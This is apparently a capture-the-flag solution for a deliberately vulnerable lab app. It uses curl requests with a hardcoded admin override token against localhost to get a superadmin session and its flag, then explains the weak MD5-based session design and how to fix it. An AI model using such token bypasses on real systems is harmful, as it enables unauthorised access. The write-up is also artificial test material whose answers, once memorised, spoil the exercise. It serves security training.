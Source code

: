 ### Solution

Method 1: Using the Magic Token

Step 1: Access admin session with hardcoded token
```bash
curl http://localhost:8000/api/admin/session \
  -H "X-Admin-Token: admin_override_token_2024"
```

Expected Response:
```json
{
  "authenticated": true,
  "role": "superadmin",
  "username": "system",
  "flag": "flag{md5_sessions_bad}",
  "message": "Weak session token accepted",
  "hint": "MD5-based sessions are insecure"
}
```

Method 2: Token Validation Endpoint

```bash
curl -X POST "http://localhost:8000/api/admin/validate-token?token=admin_override_token_2024"
```

Flag: `flag{md5_sessions_bad}`

### Why This is Vulnerable
- Hardcoded bypass token in production
- MD5 used for session token generation (cryptographically broken)
- Predictable token format allows brute forcing
- No token expiration or rotation
- Fix: Use cryptographically secure random tokens (UUID v4, crypto.randomBytes), implement expiration, rotate tokens

---

Total Points: 2,150
